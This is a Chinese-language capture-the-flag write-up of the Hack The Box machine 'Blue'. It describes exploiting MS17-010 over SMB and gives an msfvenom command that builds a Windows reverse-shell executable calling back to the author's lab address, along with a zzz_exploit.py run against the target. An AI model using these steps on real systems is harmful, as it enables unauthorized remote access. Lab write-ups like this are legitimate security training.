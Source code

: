 +++
ShowToc = true
TocOpen = true
title = '0X005 Blue'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE2e5d325be6572acc6fe7225b6f12fc65image.png)

![](/htb_img/WEBRESOURCE461282104c88e9e96c68c6156f40047fimage.png)

![](/htb_img/WEBRESOURCEb84c8731af18fe56ae61f82e2ca73235image.png)

# 获取立足点

本来是不太愿意用ms17-010直接打，但是看了一下smb的东西，好像也不太行：

但是尽量不适用msf吧：

这个失败了：

[https://github.com/mez-0/MS17-010-Python](https://github.com/mez-0/MS17-010-Python)

换一个：

简书的讲解：

[https://www.jianshu.com/p/430b2bbfdecc](https://www.jianshu.com/p/430b2bbfdecc)

这种方式也失败了。

最后使用了，这个办法：

![](/htb_img/WEBRESOURCEfd8cb7031252cbea1d9f4dd8ba9d8171image.png)

生成一个木马：

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 LPORT=8889 -f exe EXITFUNC=thread -o shell.exe

![](/htb_img/WEBRESOURCE3fb254004dfaa2ada5be2a32d11e02e3image.png)

编辑zzz_exploit.py：

添加两个\\

![](/htb_img/WEBRESOURCEaa8b069bbfe0c3ee2fbb90d26e55d862image.png)

这个位置，添加相关操作：

![](/htb_img/WEBRESOURCE80351537bd1389c2977159194987b2e5image.png)

使用vim可能会报错，可以使用记事本打开，可能是vim的问题：

![](/htb_img/WEBRESOURCE84dfc6938a3d156908ed49e5df31c8a3image.png)

运行：

python2 zzz_exploit.py 10.10.10.40 ntsvcs

![](/htb_img/WEBRESOURCEf3cc53540399883ad12f7e55611bc064image.png)

![](/htb_img/WEBRESOURCE06ae831433cd098b094bf047d02215f9image.png)

![](/htb_img/WEBRESOURCE89e4c49a655b9af459755049c3e3014fimage.png)